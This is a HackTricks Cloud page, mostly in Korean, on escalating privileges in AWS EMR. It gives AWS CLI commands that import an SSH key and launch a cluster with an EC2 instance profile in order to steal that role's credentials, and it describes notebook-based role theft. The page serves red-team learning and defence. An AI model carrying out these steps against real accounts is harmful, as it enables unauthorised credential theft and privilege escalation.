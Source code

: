 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

더 많은 **EMR에 대한 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이 권한을 가진 공격자는 **EC2 역할을 연결하여 새로운 EMR 클러스터를 실행**하고 자격 증명을 훔치려고 시도할 수 있습니다.\
이 작업을 수행하려면 **계정에 가져온 ssh 개인 키를 알고 있거나 하나를 가져와야** 하며, **마스터 노드에서 포트 22를 열 수 있어야** 합니다 (이 작업은 `--ec2-attributes` 내의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용하여 수행할 수 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** EC2 서비스 역할로의 권한 상승.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이 권한을 가진 공격자는 **AWS 콘솔**에 접근하여 노트북을 생성하고 IAM 역할을 훔칠 수 있습니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 접근하여** 관련된 IAM 역할을 훔칠 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
